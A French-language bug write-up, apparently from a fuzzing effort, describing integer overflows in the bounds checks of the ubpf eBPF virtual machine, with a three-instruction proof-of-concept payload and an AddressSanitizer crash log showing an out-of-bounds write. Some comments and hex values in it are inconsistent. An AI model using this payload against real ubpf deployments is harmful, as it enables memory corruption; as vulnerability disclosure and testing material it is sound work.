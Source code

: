 Cette fonction présente deux integer verflow:
- Le premier bloc de code compare si l'adresse et la taille sont dans les limites du context. Si la somme de l'adresse et de la taille dépasse la limite maximale autorisée d'un pointeur, cela peut entraîner un overflow.

- Le deuxième bloc de code compare si l'adresse et la taille sont dans les limites de la pile. Si la somme de l'adresse et de la taille dépasse la limite maximale autorisée d'un pointeur, cela peut également entraîner un overflow.

Dans le contexte de la fonction, l'adresse (addr) est calculée en ajoutant la valeur du registre source (reg\[inst.src\]) à l'offset (inst.offset). La taille (size) représente le nombre de bytes à lire et est définie par les opérations d'accès mémoire. Il est possible de lire au maximum 8 bytes.

Pour reproduire le bug, il est nécessaire de contrôler la valeur du registre source, mais la taille est déterminée par les opérations d'accès mémoire. Pour déclencher le bug, il faut passer une valeur comprise entre 0xFFFF_FFFF_FFFF_FFFF et 0xFFFF_FFFF_FFFF_FFF8 dans le registre source et exécuter une opération de lecture ou d'écriture de 8 bytes. Ainsi, la fonction bounds_check sera appelée avec comme argument la variable addr valant :

`0xFFFF_FFFF_FFFF_FFFF + 0x8 => 0x1_0000_0000_000_0007`

Cette valeur passera les vérifications de sécurité, mais les accès mémoire se feront sur la valeur du registre source 0xFFFF_FFFF_FFFF_FFFF qui ne fait pas partie du programme.

Ci-dessous, un payload minimisé permettant de reproduire le bug de manière certaine :

```rust
//r[6] = 0
EbpfBytecode::from(EbpfInstr::new(0xb7, 0x0, 0x6, 0x0, 0x0 as u32 as i32)),  
//[r6] = 0xFFFFFFFFFFF
EbpfBytecode::from(EbpfInstr::new(0x17, 0x0, 0x6, 0x0, 0x1 as u32 as i32)),  
//*(*(uint64_t *) (r[6] + off) = imm => 0xFFFFFFF + 0 = 0 <= 
EbpfBytecode::from(EbpfInstr::new(0x7A, 0x0, 0x6, 0x0, 0x0 as u32 as i32)),  
```

Execution:
```rust
000=> [0xB7, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00]
001=> [0x17, 0x06, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00]
002=> [0x7A, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00]
[+]VM addr: 0x608000000020
[+]FN Loaded
AddressSanitizer:DEADLYSIGNAL
=================================================================
==6773==ERROR: AddressSanitizer: SEGV on unknown address 0xffffffffffffffff (pc 0x7f636e1a7d65 bp 0x000000001f9c sp 0x7fffc1b60c50 T0)
==6773==The signal is caused by a WRITE memory access.
    #0 0x7f636e1a7d64 in ubpf_exec /mnt/c/J/re/fuzz/ubpf/vm/ubpf_vm.c:533
    #1 0x558fa1e8b44e in j_fuzzer::run_prgm::h35d4b4310f796c6f src/main.rs:337
	...
    #18 0x558fa1e84b9d in _start (/mnt/c/J/re/fuzz/j-fuzzer/target/debug/j-fuzzer+0x8b9d)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV /mnt/c/J/re/fuzz/ubpf/vm/ubpf_vm.c:533 in ubpf_exec
==6773==ABORTING
```
